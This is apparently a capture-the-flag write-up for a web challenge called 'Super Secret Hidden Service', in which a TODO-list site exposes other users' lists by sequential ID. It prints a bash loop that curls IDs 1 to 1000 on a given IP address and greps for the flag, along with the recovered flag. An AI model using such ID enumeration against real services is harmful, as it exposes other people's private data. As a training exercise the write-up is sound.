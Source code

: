 # Super Secret Hidden Service
Web, 100 points

## Description:

> TODO: Remember where I put that flag...


## Solution:

A link to a website was attached. the site was called "Dead simple Todolists" and allowed creating a simple TODO list.

The list created by using the interface had the following link:
```
http://138.247.13.110/todolist/1000/
```

Accessing different IDs allowed viewing other users' TODOs.

Therefore, the following bash command could be used to search for the flag:
```console
# for i in `seq 1 1000`; do curl -s http://138.247.13.110/todolist/$i/ | gre
p MCA; done
              <li><input type="checkbox" id="checkbox" data-todo-id="678"> MCA{al3x4_5et_a_r3minder}</li>
```

